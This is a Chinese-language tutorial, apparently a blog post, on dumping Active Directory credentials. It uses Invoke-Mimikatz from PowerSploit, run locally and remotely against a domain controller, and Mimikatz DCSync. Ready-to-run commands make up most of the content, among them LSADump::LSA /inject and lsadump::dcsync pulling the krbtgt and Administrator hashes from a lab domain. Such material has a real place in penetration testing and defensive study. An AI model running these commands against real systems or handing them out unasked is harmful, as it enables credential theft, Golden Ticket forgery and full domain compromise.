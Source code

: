 [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)是由Joe Bialek（[@JosephBialek](https://twitter.com/JosephBialek)）编写[的PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)的一个组件，该组件将[Mimikatz的](https://github.com/PowerShellMafia/PowerSploit)所有功能合并到Powershell函数中。它“利用Mimikatz 2.0和Invoke-ReflectivePEInjection来将Mimikatz反射性地完全加载到内存中。这使您无需将Mimikatz二进制文件写入磁盘就可以执行转储凭证之类的事情。

如果Invoke-Mimikatz以适当的权限运行，并且目标计算机启用了PowerShell Remoting，则它可以从其他系统中提取凭据，以及远程执行标准的Mimikatz命令，而不会将文件拖放到远程系统上执行。

Invoke-Mimikatz可以将DLL编码的元素（32位和64位版本）换成较新的元素来进行更新

```text
Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'
```

### ![](https://img-blog.csdnimg.cn/2020100401384844.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70) <a id="%E2%80%8B"></a>

### \*\*\*\*[**使用Invoke-Mimikatz远程转储Active Directory凭据**](https://adsecurity.org/?p=2398#InvokeMimikatzRemote)\*\*\*\*

```text
Invoke-Mimikatz -Command  '"privilege::debug" "LSADump::LSA /inject"' -Computer WIN-OCBQN1EPQUF.pingpig.com
```

### ![](https://img-blog.csdnimg.cn/202010040141562.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

### \*\*\*\*[**使用Mimikatz的DCSync远程转储Active Directory凭据**](https://adsecurity.org/?p=2398#MimikatzDCSync)\*\*\*\*

DCSync之前的利用方法是在域控制器上运行Mimikatz或Invoke-Mimikatz，以获取KRBTGT密码哈希值来创建Golden Tickets。使用Mimikatz的DCSync和适当的权限，攻击者可以通过网络从域控制器中提取密码哈希以及以前的密码哈希，而无需交互式登录或复制Active Directory数据库文件（ntds.dit）。

运行DCSync需要特殊权限。管理员，域管理员或企业管理员以及域控制器计算机帐户的任何成员都可以运行DCSync来提取密码数据。请注意，默认情况下，不仅允许只读域控制器为用户提取密码数据。

DCSync

**DCSync部分命令示例：**

> 在pingpig.com域中提取krbtgt用户帐户的密码数据：
>
> * lsadump::dcsync /domain:pingpig.com /user:krbtgt
>
> 在pingpig.com域中提取管理员用户帐户的密码数据：
>
> * lsadump::dcsync /domain:pingpig.com /user:Administrator
>
> 在pingpig.com域中提取域控制器指定机器帐户的密码数据：
>
> * lsadump::dcsync /domain:pingpig.com /user:win7test1
